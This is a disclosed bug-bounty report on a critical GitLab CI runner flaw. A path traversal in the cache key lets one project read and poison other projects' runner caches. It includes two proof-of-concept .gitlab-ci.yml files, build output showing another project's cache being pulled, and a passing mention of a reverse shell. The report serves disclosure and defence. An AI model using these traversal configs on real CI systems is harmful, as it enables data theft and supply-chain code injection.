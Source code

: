 # GitLab CI runner can read and poison cache of all other projects

## Report Details
- **Report ID**: 301432
- **URL**: https://hackerone.com/reports/301432
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-12-30T18:58:16.329Z
- **Disclosed**: 2018-04-27T02:21:50.009Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
The GitLab CI runner allows users to cache files and directories in between runs. These files are stored in a ZIP file and uploaded to a shared cache instance. In my testing, the files were uploaded to `runners-cache-4-internal.gitlab.com` and `runners-cache-3-internal.gitlab.com`, even for dedicated runners. It seems odd that dedicated runners use the same shared cache, but perhaps that was an intentional design decision. It could also be a vulnerability. I tried reaching the cache servers from a Docker instance itself, but wasn't able to (I tried from a reverse shell spawned from a Docker instance). There are multiple vulnerabilities (same root cause though) that can be chained to successfully poison the CI runner cache of another project.

**Reading the cache of other projects**
Create a new project with a `.gitlab-ci.yml` file in it. The file should contain the following contents. By default, when a cache file is downloaded, it'll download the cache from http://runners-cache-4-internal.gitlab.com:444/runner/project/5024150/cache.

**.gitlab-ci.yml**
```
a:
  script:
  - ls -lashR
  cache:
    key: ../1/cache
    policy: pull
    paths:
      - .
```

To read the cache, the attacker needs to know two things: a project ID (auto incremental) and a cache key. By default, the project ID will be prepended to download the cache. But because it's an HTTP request and there's no additional checks on the `key` input, a path traversal vulnerability can be exploited to move up a directory and select the cache from a different project. In this case, when it downloads the cache, it'll request http://runners-cache-4-internal.gitlab.com:444/runner/gitlab/project/1/cache instead of the project ID of the build.

**Build output**
```
[0KRunning with gitlab-runner 10.3.0 (5cf5e19a)
  on docker-auto-scale (e11ae361)
[0;m[0KUsing Docker executor with image ruby:2.1 ...
[0;m[0KUsing docker image sha256:4eadb9b5cb46f487a71d05717762679404f7f6fdec1ba4fa96304de1db07dfef for predefined container...
[0;m[0KPulling docker image ruby:2.1 ...
[0;m[0KUsing docker image ruby:2.1 ID=sha256:223d1eaa9523fa64e78f5a92b701c9c11cbc507f0ff62246dbbacdae395ffea3 for build container...
[0;msection_start:1514659811:prepare_script
[0KRunning on runner-e11ae361-project-4989754-concurrent-0 via runner-e11ae361-srm-1514658950-a15d8859...
section_end:1514659812:prepare_script
[0Ksection_start:1514659813:get_sources
[0K[32;1mCloning repository...[0;m
Cloning into '/builds/jobertabma/build-test'...
[32;1mChecking out e01918e5 as master...[0;m
[32;1mSkipping Git submodules setup[0;m
section_end:1514659814:get_sources
[0Ksection_start:1514659814:restore_cache
[0K[32;1mChecking cache for ../13083/ruby-235-with-yarn...[0;m
Downloading cache.zip from http://runners-cache-5-internal.gitlab.com:444/runner/project/13083/ruby-235-with-yarn[0;m 
[32;1mSuccessfully extracted cache[0;m
section_end:1514659844:restore_cache
```

The cache key seems to be guessable pretty easily or even unused when no key is specified, since most will correlate with the step they're executed in. When I started looking at this, I had to specify which paths to download from the cache. This made exploitation more difficult. However, it (conveniently) allowed me to use `.` as path, extracting all files from the cache into the working directory. Running `ls -lashR` after that reveals the cache contents in the build output. Files can be read using `cat` or to store them as build artifacts through the `.gitlab-ci.yml`.

**Writing the cache of other projects**
Now that the attacker knows what files are stored in the cache, it can poison the cache with its own file contents. Create another CI YAML file with the following contents:

**.gitlab-ci.yml**
```
a:
  script:
  - echo 1 > file-to-poison
  cache:
    key: ../1/cache
    policy: push
    paths:
      - file-to-poison
```

The attacker has to run a build, which will overwrite the `file-to-poison` file in the cache for project ID 1. Now, when the targeted project starts another CI run, the poisoned cache files will be downloaded and used in the CI run. For example, an attacker could poison `13083/ruby-235-with-yarn`, which would overwrite the Ruby 2.3.5 executable that is being used for GitLab CE CI runs. As you can imagine, someone could enumerate over other projects that use cached executables and overwrite them with their own code.

This has been tested against the latest version of GitLab.

## Impact

Depending on the files that are cached, this may allow an attacker to run arbitrary code on a victim's Docker instance running a CI run. This may expose confidential data, inject artifacts in a build pipeline to ship additional code, among other things.

## Attachments
No attachments
